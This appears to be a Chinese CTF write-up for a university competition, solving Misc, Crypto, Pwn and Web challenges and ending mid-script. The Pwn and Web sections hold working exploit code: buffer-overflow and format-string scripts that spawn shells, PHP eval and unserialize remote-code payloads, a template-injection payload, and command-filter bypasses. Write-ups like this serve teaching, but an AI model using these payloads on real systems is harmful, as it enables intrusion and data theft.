

# Misc

### **[Group 1] Misc大陆旅游指南**

按下Ctrl+A选择全部文本，发现“隐写”一节最后一段话后面有一大段空白的地方被选中了。


将这段空白的文本复制粘贴，即可得到flag。

### **[签到] 入场须知**

复制题目简介的flag并提交即可。 

### **[Group 1] 故障机器人0k@be**

连接到靶机，发现靶机不断返回四则运算题，手算过于繁琐，可以编写自动脚本进行计算。

```python
from pwn import *

def solve_math_challenge():
    p = remote('ctf.ctbu.edu.cn', 34169)
    buffer = ""
    
    try:
        while True:
            # 接收数据
            chunk = p.recv(1024, timeout=2).decode('utf-8', errors='ignore')
            buffer += chunk
            print(f"接收到的数据: {repr(chunk)}")
            
            # 检查缓冲区中是否有完整的题目
            if 'Q:' in buffer and '=' in buffer:
                # 找到最后一个Q:开始的位置
                q_index = buffer.rfind('Q:')
                # 找到Q:之后的第一个=号
                equal_index = buffer.find('=', q_index)
                
                if equal_index != -1:
                    # 提取题目部分
                    question_line = buffer[q_index:equal_index + 1]
                    print(f"提取到的题目: {question_line}")
                    
                    # 从缓冲区中移除已处理的部分，但保留可能未处理的响应
                    buffer = buffer[equal_index + 1:]
                    
                    # 提取数学表达式
                    math_expr = question_line[2:].strip()[:-1].strip()  # 去掉"Q:"和末尾的"="
                    print(f"数学表达式: {math_expr}")
                    
                    # 计算答案
                    try:
                        if '/' in math_expr:
                            parts = math_expr.split('/')
                            num1 = int(parts[0].strip())
                            num2 = int(parts[1].strip())
                            result = num1 // num2
                        elif '*' in math_expr:
                            parts = math_expr.split('*')
                            num1 = int(parts[0].strip())
                            num2 = int(parts[1].strip())
                            result = num1 * num2
                        elif '+' in math_expr:
                            parts = math_expr.split('+')
                            num1 = int(parts[0].strip())
                            num2 = int(parts[1].strip())
                            result = num1 + num2
                        elif '-' in math_expr:
                            parts = math_expr.split('-')
                            num1 = int(parts[0].strip())
                            num2 = int(parts[1].strip())
                            result = num1 - num2
                        else:
                            result = int(math_expr)
                        
                        print(f"计算结果: {result}")
                        p.sendline(str(result).encode())
                        print("答案已发送")
                        
                    except Exception as e:
                        print(f"计算错误: {e}")
                        p.sendline(b'0')
                
                # 打印缓冲区中的响应信息（非题目部分）
                response_part = buffer[:q_index] if q_index > 0 else buffer
                if response_part.strip():
                    print("服务器响应:")
                    for line in response_part.splitlines():
                        if line.strip():
                            print(f"  {line}")
                    buffer = buffer[q_index:]  # 保留题目部分在缓冲区中
            
    except EOFError:
        print("连接结束")
        # 打印缓冲区中剩余的内容
        if buffer.strip():
            print("最后接收到的数据:")
            print(buffer)
    finally:
        p.close()

if __name__ == "__main__":
    solve_math_challenge()
```

执行后计算到 666 题即可获得flag.

### **[Group 1] 黑白棋阵的奥秘**

将#号用黑色方块▇替换 @号用空格替换，可得到二维码，扫描后即可得到flag.

### 无字天书

使用 Sublime Text 打开，发现大量零宽字符。


可看见只有 `<0x200b>`, `<0x200c>`2种可能，不妨将它们视为二进制编码。

尝试将`<0x200b>`替换为0,`<0x200c>`替换为1（需要将txt中的字符选中后复制粘贴到查找框中）,将得到的二进制字符串粘贴到解码器，即可获得flag.


### **[Group 3] Cat the USB**

用wireshark打开附件，可见大量 Info 为 `URB_INTERRUPT in`的数据包，这些数据包包含了键盘的击键信息，根据信息反推出打的字符即可得到 flag。

在筛选器中输入 [`usbhid.data`](http://usbhid.data) 筛选出所有目标数据包，点击左上角文件-导出特定分组，


导出经筛选后的数据文件。

在 Wireshark 安装目录打开命令行（未设置环境变量的情况下），输入以下命令：

`tshark -T fields -e usb.capdata -r /path/to/filtered.pcapng > usbdata.txt`

在 `usbdata.txt`中可查看键码。


根据 [HID Usage Tables 1.6 | USB-IF](https://www.usb.org/document-library/hid-usage-tables-16) 第 90 页的记述，将该 txt 内的键码使用以下代码进行解码：

```python
import sys
import re

US_HID = {
    0x04: 'a', 0x05: 'b', 0x06: 'c', 0x07: 'd', 0x08: 'e', 0x09: 'f', 0x0a: 'g',
    0x0b: 'h', 0x0c: 'i', 0x0d: 'j', 0x0e: 'k', 0x0f: 'l', 0x10: 'm', 0x11: 'n',
    0x12: 'o', 0x13: 'p', 0x14: 'q', 0x15: 'r', 0x16: 's', 0x17: 't', 0x18: 'u',
    0x19: 'v', 0x1a: 'w', 0x1b: 'x', 0x1c: 'y', 0x1d: 'z',
    0x1e: '1', 0x1f: '2', 0x20: '3', 0x21: '4', 0x22: '5', 0x23: '6', 0x24: '7',
    0x25: '8', 0x26: '9', 0x27: '0',
    0x28: '\n',  # Enter
    0x2c: ' ',   # Space
    0x2d: '-', 0x2e: '=', 0x2f: '[', 0x30: ']', 0x31: '\\',
    0x33: ';', 0x34: '\'', 0x35: '`', 0x36: ',', 0x37: '.', 0x38: '/',
}

SHIFT_MAP = {
    '1': '!', '2':'@','3':'#','4':'$','5':'%','6':'^','7':'&','8':'*','9':'(','0':')',
    '-': '_', '=': '+', '[': '{', ']': '}', '\\': '|', ';': ':', "'": '"', '`': '~',
    ',': '<', '.': '>', '/': '?'
}

def parse_hex_line(line):
    line = line.strip()
    if not line:
        return []
    line = re.sub(r'[^0-9a-fA-F]', '', line)
    if len(line) % 2 != 0:
        return []
    try:
        b = bytes.fromhex(line)
        return list(b)
    except:
        return []

def decode_lines(filename):
    out_chars = []
    with open(filename, 'r', encoding='utf-8', errors='ignore') as f:
        for raw in f:
            bs = parse_hex_line(raw)
            if not bs:
                continue
            modifier = bs[0] if len(bs) > 0 else 0
            is_shift = bool(modifier & 0x22)
            keycodes = bs[2:8] if len(bs) >= 8 else bs[2:]
            for kc in keycodes:
                if kc == 0:
                    continue
                ch = US_HID.get(kc, None)
                if ch is None:
                    ch = f'<0x{kc:02x}>'
                else:
                    if is_shift:
                        if 'a' <= ch <= 'z':
                            ch = ch.upper()
                        else:
                            ch = SHIFT_MAP.get(ch, ch)
                out_chars.append(ch)
    return ''.join(out_chars)

if __name__ == '__main__':
    txt = decode_lines("usbdata.txt")
    print(txt)

```

### **[Group 3] Emo_Zip**

根据提示“Zip不知道密码也能打开？当然！只要知道里面的文件内容就行”可知，需要利用 **Zip 已知明文攻击**。

已知明文攻击可以使用 `bkcrack`工具，其攻击的要求是： **至少 12 字节已知明文，并且其中至少有 8 字节是连续的**。

虽然知道 `flag.txt`中必定有 `coctf`文字，但字节数太少，所幸压缩包内还有名叫 `她不知道的事.png`的文件，png的文件头已足够满足攻击要求。

使用以下命令写入一个png文件头：

```bash
printf '\x89PNG\r\n\x1a\n\x00\x00\x00\x0DIHDR' > png_head.bin
```

将其压缩到 `known.zip`，然后使用以下命令：

```bash
bkcrack -C attachment.zip -c 她不知道的事.png -P known.zip -p png_head.bin
```

破解完毕后会输出3段key。


再使用以下命令：

```bash
bkcrack -C attachment.zip -c flag.txt -k 81a89685 9907e1a1 37a88abe -d flag.txt
```

即可在 `flag.txt`中查看flag。

### **[Group 3] Easier_Zip塔的无尽长廊**

是一个超长嵌套zip解压题，可以编写脚本批量解压。

```python
import os
from pathlib import Path

def simple_7z_unzip(start_file, output_dir):
    if not os.path.exists(start_file):
        print(f"错误: 文件不存在 {start_file}")
        return False
    
    # 检查7z是否可用
    if os.system("7z >nul 2>&1") != 0:
        print("错误: 7z命令未找到，请安装7-Zip")
        return False
    
    current_file = Path(start_file)
    level = 1
    output_path = Path(output_dir)
    
    print("开始嵌套解压...")
    
    while True:
        print(f"\n=== 第 {level} 层 ===")
        
        # 创建当前层目录
        level_dir = output_path / f"level{level}"
        level_dir.mkdir(exist_ok=True)
        
        # 解压当前层
        if level == 1:
            # 第一层无密码
            cmd = f'7z x -y -o"{level_dir}" "{current_file}"'
        else:
            # 从上一层读取密码
            prev_dir = output_path / f"level{level-1}"
            password_file = None
            
            # 查找password.txt
            for file in prev_dir.rglob('*'):
                if file.is_file() and file.name.lower() == 'password.txt':
                    password_file = file
                    break
            
            if not password_file:
                print("未找到password.txt，解压完成")
                break
            
            # 读取密码
            with open(password_file, 'r') as f:
                password = f.read().strip()
            
            print(f"解压: {current_file.name} (密码: {password})")
            cmd = f'7z x -p"{password}" -y -o"{level_dir}" "{current_file}"'
        
        # 执行解压命令
        if os.system(cmd) != 0:
            print("解压失败")
            break
        
        # 查找下一层文件
        next_file = None
        for file in level_dir.iterdir():
            if file.is_file():
                name_lower = file.name.lower()
                # 查找Wakt开头的归档文件
                if name_lower.startswith('Wakt') and any(name_lower.endswith(ext) for ext in ['.zip', '.rar', '.7z']):
                    next_file = file
                    break
        
        if not next_file:
            # 查找任何归档文件
            for file in level_dir.iterdir():
                if file.is_file() and any(file.name.lower().endswith(ext) for ext in ['.zip', '.rar', '.7z', '.tar']):
                    next_file = file
                    break
        
        if not next_file:
            print("未找到下一层归档文件，解压完成")
            break
        
        current_file = next_file
        level += 1
    
    print(f"\n解压完成！共 {level} 层")
    return True

if __name__ == "__main__":
    start_file = 'attachment.zip'
    output_dir = 'extracted'
    
    simple_7z_unzip(start_file, output_dir)
```

安装 7-zip，确保命令行工具在 PATH 内，附件保存为 `attachment.zip`，并创建一个叫 `extracted`的目录，执行此脚本，等待之后在最后一层压缩包找到 flag。

# Crypto

### **[The1️⃣]PEM**

根据PKCS1_OAEP填充提示，将附件中的加密flag另存为到 a.bin 文件里，与私钥文件放于同一文件夹，新建一个python脚本，写入以下代码(需要安装pycryptodome库)：

```python
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric import padding
from cryptography.hazmat.primitives import hashes
import base64

with open("private_key.pem", "rb") as key_file:
    private_key = serialization.load_pem_private_key(
        key_file.read(),
        password=None,
    )

with open("a.bin", "rb") as cipher_file:
    ciphertext = cipher_file.read()
    ciphertext = base64.b64decode(ciphertext)
    decrypted = private_key.decrypt(
        ciphertext,
        padding.OAEP(
            mgf=padding.MGF1(algorithm=hashes.SHA1()),
            algorithm=hashes.SHA1(),
            label=None,
        ),
    )

print(decrypted.decode())
```

执行后获得 flag.

### **[The1️⃣]Telephone**

这段音频是一段拨号声音，又名叫DTMF信号。可通过其特定的声音频率反推出对应的电话号码。

将音频导入Audacity,选择其中一段音频，点击 分析-频谱分析


将鼠标移动到显示出的2个波峰，记录在底下“峰值”处显示的频率。


将记录的2个频率与下表对照，可得到该段音频对应的数字。


按这种方式可反推出电话号码为 17805957997，即为flag.

### **[The1️⃣]YoungMan**

将密文丢进凯撒密码解密器，偏移量为1(b→c)，即为flag。

### **[The1️⃣]ez_RSA**

代码中缺少了变量d，根据RSA原理：

```
d = e^(-1) mod φ(n)
φ(n) = (p-1)*(q-1)
```

修复代码：

```python
import libnum
from Crypto.Util.number import long_to_bytes

e = 65537
c = 32808008424140501790596866480903586865382671083158272981650320307003249990566298251808056192122429735390357993089689097
p = 929118486489871517230751653198044619277798884256443306270387
q = 958936486146644956091737527755675959645967336293017663255929
n = p * q
# 计算欧拉函数 φ(n)
phi = (p-1) * (q-1)
# 计算私钥 d
d = pow(e, -1, phi)
# 解密
m = pow(c, d, n)
flag = long_to_bytes(m).decode()
print(flag)
```

执行后获得 flag。

### **[The3️⃣]看看你键盘呢**

将附件的base64解码，得到数字：

```python
4524452033262124224530483224232027
```

可能是键码，按2数字一组进行拆分：

```python
45 24 45 20 33 26 21 24 22 45 30 48 32 24 23 20 27
```

此键码看上去像 Linux 内核里的Input Event Code。

在https://github.com/torvalds/linux/blob/master/include/uapi/linux/input-event-codes.h 查看相关源代码，


发现大量 `#define`，与上述键码一一对应，例如45代表X，24代表O，20代表T。

解码可得：

```python
xoxtf[youxabdoit]
```

结果虽然被混淆了，但很好推出原文为：

```python
coctf{youcandoit}
```

即为 flag。

### **[The2️⃣] Welcome to Crypto**

由 sage 代码可知需计算离散对数。

使用以下 sage 代码：

```
p = 1152921504606846883
g = 2
h = 563012899838390173
R = Integers(p)
x = discrete_log(R(h), R(g))
print(x)
```

将得到的数字用 `coctf{}`包裹，即为 flag。

### **[The2️⃣]I Love COCTF**

修复原始代码：

```python
from Crypto.Util.number import getPrime,bytes_to_long

flag=open("flag","rb").read()

p=getPrime(1024)
q=getPrime(1024)
assert(e<100000)
n=p*q
m=bytes_to_long(flag)
c=pow(m,e,n)
print(c,n)
print(pow(753,e,n))

p=getPrime(1024)
n=p*q
m=bytes_to_long(b"COCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTFCOCTF")
c=pow(m,e,n)
print(c,n)

'''
output:
8308563048684489587437753181843085011961274458987286396830196639823349782451452496352228149594737700981117869682544316056433746844956110380179117080518565510314664870844242084749037378694911174859775733327313627362428685848368446787164133416937542125572283734850286489533393437523697710762721477241384814705863903396584129486308969407331268935488778709554212560412468405312400644719114680921416694913429454017465364539184449288649091433720387171110282589874210488576819908078968449982321745769081046947403595527439298922256698295156984783676084193522384921581471621265804599423122215569698143313398013704477666684231 17170664355934902493437656394614372623175718452005523175138305899811691378571160152445964962629960785753652257731551078533346401201398190390029369631273763282271677852883990455709424798326449477072740510749542834179258450798091237965541704585762423894234162902810260837948395501215867925243466734227476420929795369380484790489484217285284490395887468142274087174613524754776502974929734194088210356783791687735817589083784113746474058342840419472237432966078998257978202349001813077241619204348692879955849232567718082491309714959963433347478127843947181121741601497067972439241871512382590562812644796886878948704743
11395111629199416600911202521152689422900281095190433967710167264495577145184660298104770641325825047601558278746319618879775437721789801935421599524421050805316038272075538186318629687777465138972110641645945049565700947758366160690523655685059431647203124898288595548196892456152541612353037584632821666038547553091874030921353875113954026305945516230498097867056378992316769503377119555282500625639417929240408940647366149396581877481213975245106572635979785967800833827780356514555502616533441865655580873174460263346445377372936158736623277817327444612268336768181221911388026006453703541134683907850273798833917
3652598352231042027304791868144928096928048374397577537565777370543521645184116184791008666875533949179463635621778013287073198410272383656466295717703130984451796863766859355844966685156427803784488703670414499439737046265861637958164507189368806648909312431787794556882431371843970065239316334789451589481872344819328020153902364768444552503348727875558041848017944368130019570712524733760459824155941540166618397597538635104277628928813301163818476156363426518074222131757785523270834068580920964144305522791348135130793314967171182003018827782684739259846825922769414720701441577562150683402021875998839110029923 17727327561925809455031866918994348212631718878187966717210931712236244484131646176022851876145848731404973701059477870797721602647426578554593231962244399118607883382359998484285672686198625634233334043675891937354418075265290703730350288831561212257502539793656437080476129806697735603919626059939505568631508474473255134960835047764906605706198112494180859145915637771437783497974839396509070046558591615154809950546191254513511952465513375654392937248158798874899413012529029224808153370763962510832968095763666149847213352514338957427097833255290379636508943149662625964091581177702592426250617477049854687458293
'''

```

缺少了e，但是该程序的输出已经给出

**注意：第一行和第三行输出因为 `print(c, n)`，两个变量用逗号分开，故第一行和第三行有2组数字**

该题目为 RSA 共模漏洞题，即当两个公钥(`e`)加密同一明文，两个公钥模数相同，则可以在不知道私钥的情况下解密出明文。

根据 `assert(e<100000)`可知，e小于100000，可以通过暴力算法将e暴力算出。

```python
from Crypto.Util.number import inverse, long_to_bytes
from math import gcd

# 为节省文档空间，大数字的中间被删去
# 将这些数字替换为原始代码下方output的值
# ===第一行输出===
c1 = int("83085630486844895874377531...04477666684231")
n1 = int("17170664355934902493437...812644796886878948704743")
# ===第二行输出===
s753 = int("1139511162919941660091...07850273798833917")
# ===第三行输出===
c2 = int("3652598352231042027304...577562150683402021875998839110029923")
n2 = int("177273275619258094550...617477049854687458293")

# 1. 寻找公因数 q 和 p1
q  = gcd(n1, n2)
p1 = n1 // q

# 2. 恢复 e（先试常见值，再暴力破解）
e = None
for try_e in (3, 5, 17, 257, 65537):
    if pow(753, try_e, n1) == s753:
        e = try_e
        break
if e is None:
    for try_e in range(1, 100000):
        if pow(753, try_e, n1) == s753:
            e = try_e
            break
if e is None:
    raise Exception("e not found")

# 3. 计算私钥 d 并解密 c1
d = inverse(e, (p1 - 1) * (q - 1))
m = pow(c1, d, n1)
print(long_to_bytes(m))
```

执行后获得flag。

### **[The2️⃣] Child's Play**

题目提示提到“素数光滑”，本题中的素数函数是通过：

```python
n = 2
while n.bit_length() < bits:
    n *= choice(primes)
if isPrime(n + 1):
    return n + 1
```

可知 `p-1`的值是很光滑的，可以使用一种叫 **Pollard’s p-1** 分解法的方式分解出 `p`，从而得出密文。

使用以下代码：

```python
import math
from Crypto.Util.number import long_to_bytes, inverse

# 已知 n, e, c
n = 131614094492818699...450995936069632596145829790717531873
e = 65537
c = 914634106200034183066...636328619431330882651483647

# 简单版 Pollard p-1
def pollard_pm1(n, B=200000):
    a = 2
    for j in range(2, B):
        a = pow(a, j, n)
        g = math.gcd(a-1, n)
        if 1 < g < n:
            return g
    return None

p = pollard_pm1(n)
q = n // p
phi = (p-1)*(q-1)
d = inverse(e, phi)
m = pow(c, d, n)
print(long_to_bytes(m))

```

执行后获得flag。

# Pwn

### **Pwn入门指北**

根据附件的pdf内的教程进行即可获取flag.

### Trunc

`main` 函数中，


可见判断是否为管理员的 `is_admin` 函数，双击查看，


可知当魔法编号为 `322420958` 时为管理员。

编写攻击脚本，

```python
from pwn import *
p = remote('ctf.ctbu.edu.cn', 34051)
p.sendline(b'kafuu chino') # 随意
payload = 322420958
p.sendline(str(payload).encode())
p.interactive()
```

即可获取flag.

### easy_shell

将主程序丢进IDA，查看main函数伪代码，发现启动shell需要输入 `sh` 或 `/sh` 命令。


通过 `netcat` 连接到靶机，打开受限shell，通过查看 `is_forbidden` 函数可知，大部分查看文件内容的命令都无法使用，但没有限制  `dd` 命令的使用，这个命令同样也可以获取文件内容。

使用  `ls`  命令查看目录下文件，发现名为  `flag`  的文件。使用 `dd if=flag`  命令即可获取 flag.

### ret2shellcode

主程序丢IDA,查看 `main` 伪代码，


可以看见定义了一个字符变量 `s` ,长度为 `256` ,并通过 `mprotect` 将 `stdout` 所在内存区设为了 RWX，然后通过 `strcpy` 将 `s` 复制到 `buff` .

`read` 函数会从 `stdin`（第一个参数 0）中读取  `0x110`(272字节)内容到 `s` ,这会造成缓冲区溢出.

因s的长度为256( `0x100` )，程序为x86_64架构，故 saved rbp为8,计算出偏移为256+8=264( `0x108` )

由此可编写攻击脚本：

```python
from pwn import *
exe = './ret2shellcode'
context.binary = exe
context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

elf = ELF(exe)

buff_addr = elf.symbols['buff'] # 获取buff的地址

# 偏移为 0x100 (s) + 8 (64 位 saved rbp) = 0x108
ret_offset = 0x108
shellcode = asm(shellcraft.sh())

# 构造 payload:
payload = shellcode
payload += b'A' * (ret_offset - len(payload))
payload += p64(buff_addr)
p = remote('ctf.ctbu.edu.cn', 33784)
p.send(payload)
p.interactive()
```

执行后获取 shell，通过 `cat /flag`命令即可获取 flag。

### ret2text

使用 `checksec` 命令可知为 i386 架构程序，且根据提示“栈平衡”可知需要利用栈平衡相关漏洞。

在 IDA 中可知 `buf` 长度24，偏移量为 24 + 4(32位 ebp) = 28，读 `0x64` 字节，会导致栈溢出。


又可知 `win` 函数的地址为 `0x8049196`，点击 `return` 语句可知 ret 地址为 `0x80491BC`


编写攻击脚本：

```python
from pwn import *

context(os='linux', arch='i386', log_level='info')

binary = "./ret2text"
elf = ELF(binary)

offset = 28
win = 0x08049196
ret = 0x80491BC
payload = b"A" * offset + p32(ret) + p32(win)
# 此处 payload 做了这几件事：
# 1.使用 28 字节垃圾信息填充缓冲区
# 2.将返回地址覆盖为 ret 地址，ret 会跳转到栈顶下一个 4 字节（即p32(win)）做到平衡栈

p = remote("ctf.ctbu.edu.cn", 33537)
p.send(payload)
p.interactive()

```

即可获取 flag。

### **时间跳跃机器**

在 `modify_param` 函数中，


传入索引 `a1` 与值 `a2` ,但程序未对 `a1` 做任何检查，可能导致**数组越界。**

在 `main` 函数中，


会在用户每次操作完成后 `goto` 到 `LABEL_21` 进行 `secret_flag` 检查，若等于 `0x7FFFFFFF` (2147483647)时获取shell.

双击 `secret_flag` 查看其地址，


可看见 `world_line_params` 离 `secret_flag` 的距离很近，它们地址的差值为 `0x2c` (44）字节。

由于整型数组每个元素占4字节，故需要将数组索引调至11便可越界到 `secret_flag` 写入内容。

连接到靶机，选择2(修改时间跳跃参数)，输入索引11,输入值2147483647,即可获取shell,使用 `cat flag` 命令获得flag.

### **终极黑客**

使用 `netcat` 连接到靶机后，经过一段剧情后进入受限 shell,根据剧情文本“没有显示旗帜被删除，应该是隐藏起来了”可知，需要使用  `ls -a` 命令列出目录文件（包括隐藏文件）。使用此命令后发现名为  `.flag`  的文件，使用 `cat .flag` 命令得到flag.


### 金丝雀与你的简历

使用 `checksec` 命令可知该程序启用了Canary栈保护，无法使用一般的栈溢出攻击来获取flag。将程序丢入IDA,可知该程序逻辑为：主菜单—选择选项—输入用户名或简介。左侧函数列表可见 `input_username` , `input_bio` , `backdoor` 函数，其中 `backdoor` 是需要跳转到的目标函数。


`input_username` 函数中， `buf` 的长度大于 `read` 函数读取的字节数，故此处无法使用栈溢出，但 `printf(buf)` 暴露了字符串格式化漏洞，因为其未对用户输入做安全检查。


 `input_bio` 函数中， `buf` 长度小于 `read` 函数读取的字节数，可以使用栈溢出，但由于程序启用了Canary,因此需要想办法泄漏canary来绕过它。

首先尝试以下代码确定canary的位置：

```python
from pwn import *
context.log_level = 'debug'
p = remote("ctf.ctbu.edu.cn", 33762)
# 第一次尝试：使用简单的 %p 来探测
p.sendline(b’1’) # 切换到用户名输入
# 发送不带换行符的纯格式化字符串
payload = b'%p.%p.%p.%p.%p.%p.%p.%p.%p.%p%p.%p.%p.%p.%p.%p.%p.%p.%p.%p%p.%p.%p.%p.%p.%p.%p.%p.%p.%p'
p.send(payload) # 注意：用 send 而不是 sendline 避免换行符
response = p.recvuntil('Hello, ', timeout=1)
leak_data = p.recvline()
print(leak_data)
```

可得到类似以下结果：

```
0x7ffd4f260c90.(nil).0xffffffffffffffff.0x7.(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x2e702570252e7025.0x70252e70252e70250x252e70252e70252e.0x2e70252e70252e70.0x407025.(nil).0x27ec2c515922ff00.0x7ffd4f262e20.0x401403.(nil).0x100000000.0x1@
```

canary的特点是以00结尾，大小8字节，  `0x27ec2c515922ff00` 即为要确定的canary,位于第14左右的位置，将上述代码的 `payload` 修改为  `b’%13$lx.%14$lx.%15$lx.%16$lx’` 来缩小范围，最终可确定使用 `b’%15$lx’` 的 `payload` 可精准泄漏出canary.


通过ida可确认 `backdoor` 函数地址为 `0x4011C6` .

使用以下攻击脚本：

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
binary = "./canary"
elf = ELF(binary)
backdoor_addr = 0x4011C6
payload1 = b'%15$lx'
p = remote("ctf.ctbu.edu.cn", 33762)
p.sendline(b'1')
p.recvuntil(b'username:')
p.send(payload1)
p.recvuntil(b"Hello, ")
canary = int(p.recvline(), 16) # 获取canary
print(canary)
p.sendline(b'2') # 切换到个人简介输入
payload2 = b"A" * 136 + p64(canary) + b"B" * 8 + p64(backdoor_addr) # 136为input_bio处的buf长度，8为saved rbp大小
p.send(payload2)
p.interactive()
```

执行后发现成功输出了 `Congratulations! You got the shell! And this is your flag:` ，但flag并未输出，推测是 `backdoor` 函数中 `fflush` 函数导致的，但可以跳过该函数。


光标点击 `call _fflush` 下一行的汇编代码，可知该代码位于 `backdoor` 所在地址+ `0x22` 的位置,故将上述代码的 `backdoor_addr` 加上 `0x22` ,再次执行，即可获得flag.

# Web

### Rubik’s Cube

如果手动把魔方拼好的话要耗费不少时间，不妨来找找有没有代码控制魔方拼好后执行的操作。

打开F12,不难发现  `scripts/certificate.js`  里面有一个叫 `makeCertificate`  的可疑函数。


在控制台中输入  `makeCertificate()` 回车，魔方瞬间解开，flag就在网页右下角。


### Rubik's Cube Revenge

与Rubik’s Cube 解法相同。

### **Secret Note**

可以进行账号注册，登录后点击”查看我的笔记”按钮，可看见查看的文件为  `user_files/user_note.txt` ，且URL参数包含了文件名。


按F12查看源代码，发现注释提示，故将 `file` 参数改为 `/admin_password.txt` ，获得管理员密码。


登录管理员，点击查看我的笔记后出现报错： `读取文件失败: [Errno 2] No such file or directory: 'user_files/admin_note.txt'`  这是python常见的错误格式，推测后端为python。在管理员笔记可见flag位置，但通过 `view_file` 路由无法读取，提示拒绝访问。


打开wappalyzer可发现使用了flask框架，推测可通过模板注入执行恶意代码。

在添加笔记页面输入jinja2模板，但发现服务器禁止了以下非法内容： `{{ }} os file flag`  等，所以需要绕点弯，将flag文件的内容写入到前端可读取的地方。

输入以下模板：

```python




 # 拼接字符串防止服务器检测





```

点击添加后，flag可在管理员的私有笔记处查看。

### bottle

附件为后端代码，分析可知：

`POST /upload`会将上传的zip文件解压到 `uploads/<md5值>`，可通过 `GET /view/<md5值>/<文件名>`读取文件内容，若文件包含屏蔽词则阻止读取，不含则通过 `template(content)`返回文件内容，存在明显的模板注入漏洞。

查看 `BLOCK_DICT`可知大部分可创建进程的方式被禁用，但没有禁用 `subprocess`模块，同样可用于创建进程。即使花括号被禁用，也可以只靠 `%` 符号进行模板注入

考虑到下划线也被禁用，且flag文本内容可能包含下划线，故不可通过 `/view`路由读取flag内容，可以考虑直接写入到静态页面。分析代码可知有 `static/upload.html` 这个静态页面，可以写入至此。

创建一个文本文件，输入以下 payload：

```python
% import subprocess; subprocess.run(['cp','-f','/flag','./static/upload.html'])
```

`-f`参数可直接覆盖原文件。

将该文件压缩为zip，并使用 Apifox 等软件构建 HTTP 请求，并在浏览器打开返回的路由。


打开路由后出现白屏，返回主页并点击“参与瓶子回收”，获得flag。

### ez_rce

一个php审计题目，



eval()是php中的内置函数，可以直接执行其参数包含的字符串形式的php代码，$_POST是预定义变量，用于收集通过 POST 方法发送的数据，因此可以通过构造POST请求远程执行恶意代码。

使用以下命令构造：

`curl -X POST [http://ctf.ctbu.edu.cn:1145/](http://ctf.ctbu.edu.cn:1145/) -d “something=system(‘uname’);”`

其中 `system()` 函数可以执行shell命令。

可看见服务器返回了 Linux，代表成功在远端执行了shell命令。 执行 `ls /`  命令，发现根目录下有名为 `flag` 的文件。执行 `cat /flag` 命令，获取到flag.

### ez_unserialize


这是一个 php 反序列化漏洞，分析如下：

- **example类**:
    - 属性：`public $handle`
    - 方法：`__destruct()` - 析构函数，在对象销毁时自动调用`funnnn()`方法
    - 方法：`funnnn()` - 调用`$this->handle->close()`
- **process类**:
    - 属性：`public $pid`
    - 方法：`close()` - 使用`eval()`执行`$this->pid`的内容

代码通过`$_GET['data']`获取参数并反序列化，如果构造一个恶意的序列化字符串，可以让`example`对象的`handle`属性指向一个`process`对象。

可使用以下 php 代码构造字符串：

```php
<?php
class example {
    public $handle;
}

class process {
    public $pid;
}

// 创建process对象，设置要执行的代码
$process = new process();
$process->pid = "system('cat /flag');"; // 一般 flag 都存放于此

// 创建example对象，设置handle为process对象
$example = new example();
$example->handle = $process;

// 序列化对象
$serialized = serialize($example);
echo $serialized;
echo "\n\nURL encoded: " . urlencode($serialized);
?>
```

返回像是以下内容：

```php
O:7:"example":1:{s:6:"handle";O:7:"process":1:{s:3:"pid";s:20:"system('cat /flag');";}}
```

此即为所需的 payload，需作为 `data`参数传入。

构造 curl 命令：

```bash
curl -G --data-urlencode "data=O:7:\"example\":1:{s:6:\"handle\";O:7:\"process\":1:{s:3:\"pid\";s:20:\"system('cat /flag');\";}}" "http://ctf.ctbu.edu.cn:34083/"
```

获取flag。

### 公司内部文件浏览器

F12查看源代码，


可发现无法使用的屏蔽词，这其中包括了空格，通过在路径输入框输入 `-la` 后回车，可发现其返回了文件的详细权限信息。


可确定该目录浏览功能通过执行shell命令 `ls` 来实现。

大部分用于查看文件内容的命令无法使用，但不包括 `tac` ；虽然空格被禁用了，但制表符没被禁用(可部分代替空格的功能）。

因此可尝试构建payload读取 `index.php` 源码：

```bash
|xargs	tac
```

(|为管道符，用于分割前面的 `ls` 和后面的命令； `xargs` 与 `tac` 之间的空白为制表符，Windows上可通过按住Alt—按小键盘的0和9—松开Alt打出； `xargs` 用于将前面 `ls` 出的 `index.php` 作为命令行参数间接传递给 `tac` ，防止被屏蔽。)


通过查看源码可发现一个名为 `is_suspicious` 的函数，用于判断用户输入是否含屏蔽词，是则返回 `true` ，否则返回 `false` 。为绕过屏蔽，可以使用 `sed` 命令将 `true` 替换为 `false` ，并且该源代码只有1处 `true` ，可放心替换。

使用以下payload:

```bash
.|xargs	sed	-i	's/true/false/g'
```

执行完毕后，屏蔽功能失效。

查看根目录，发现2个文件： `flag` 和 `flag.txt` ，使用 `|cat /flag.txt` 查看文件内容为：

```
web用户还想读取root用户的flag？
```

再使用 `-la /` 命令查看，发现 `flag` 文件设置了不可读。查看 `/bin` 与 `/usr/bin` 目录，发现 `su` 命令。尝试执行该命令：

```bash
|su 2> /dev/stdout
```

报错： `su: must be suid to work properly`

这表示busybox没有相关权限可以支持普通用户升级到root权限，故通过 `su` 命令提权的方式不可行。

也许可以通过寻找其他SUID程序，看看有没有可疑程序可以读取flag内容。使用以下命令：

```bash
|find / -perm -4000 -type f 2>/dev/null
```

返回了 `/bin/guess` ，这是普通Linux没有的命令。使用 `|guess 2> /dev/stdout` 命令查看其用法为：

```bash
Usage: guess <file_path>
```

故尝试使用 `|guess /flag` 命令，成功获取到flag。

### 正在维护的网页

打开网页，F12调出开发者工具，直接查看相关js代码，即可找到flag。


### 计数挑战

查看HTML源码可知，可通过带上count=xxx 参数构造HTTP请求来提交计数，但若直接提交3000，服务器会拒绝，可能是由于实时变化的响应Cookie导致的，所以可以尝试暴力方法：自动点击按钮直至3000.

代码：

```python
import asyncio
